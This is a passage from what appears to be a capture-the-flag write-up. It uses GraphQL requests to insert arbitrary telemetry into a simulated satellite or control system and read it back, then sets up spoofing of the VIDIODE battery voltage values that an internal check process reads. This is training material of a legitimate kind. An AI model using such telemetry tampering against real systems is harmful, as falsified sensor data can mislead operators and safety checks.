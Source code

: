 ```
# Response:
{
  "data": {
    "insert": {
      "success": true,
      "errors": ""
    }
  }
}
```

Excellent, no errors! Lets see if we can read it:

```
# Request:
{
  telemetry(subsystem:"acme") {
    timestamp, parameter
  }
}
```

```
# Response
{
  "data": {
    "telemetry": [
      {
        "timestamp": 1590625823.3731902,
        "parameter": "test"
      }
    ]
  }
}
```

Nice! 

### Spoofing Battery Voltage Levels

At this point it looks like we can successfully insert (and probably delete) telemetry values. So what now? If we look back at the original logs, we can see internal processes that check the telemetry values:

```
critical-tel-check  info: Detected new telemetry values.
critical-tel-check  info: Checking recently inserted telemetry values.
```

And it recorded a warning about the battery voltage: `warn: VIDIODE battery voltage too low.` Lets query VIDIODE and see if there is a telemetry entry for it:

```
# Request
{
  telemetry(parameter: "VIDIODE") {
    timestamp, subsystem, parameter, value
  }
}
```
